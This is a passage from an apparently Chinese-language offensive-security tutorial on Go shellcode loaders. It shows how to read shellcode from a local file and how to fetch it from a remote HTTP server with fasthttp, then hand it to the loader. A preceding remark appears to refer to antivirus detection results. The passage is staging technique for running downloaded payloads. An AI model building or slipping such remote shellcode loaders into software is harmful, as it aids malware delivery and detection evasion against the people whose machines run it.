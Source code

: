 > 注：绿色数字为正常，红色为异常，白色是其他

## Shellcode 不同的存储方式

### 本地存储

只需要改变一行代码。运行时必须有 Shellcode 文件，可以是绝对路径或者相对的路径

```bash
shellcode, _ := os.ReadFile("./test2.bin")
```

[![](assets/1707954174-b3a4c222e6a683dd5142db196f58c4b0.gif)](https://xzfile.aliyuncs.com/media/upload/picture/20240205003608-7fc2a8fe-c37b-1.gif)

## 远程存储

需要将文件存储到远程服务器，以 python -m http.server 80 来举例  
首先引入库、增加函数

```bash
"github.com/valyala/fasthttp"


func fetchShellcode() []byte {

    url := "http://localhost/test.bin"

    _, body, _ := fasthttp.Get(nil, url)

    return body
}
```

最后将 Shellcode 处改为函数调用

```bash
shellcode := fetchShellcode()
```
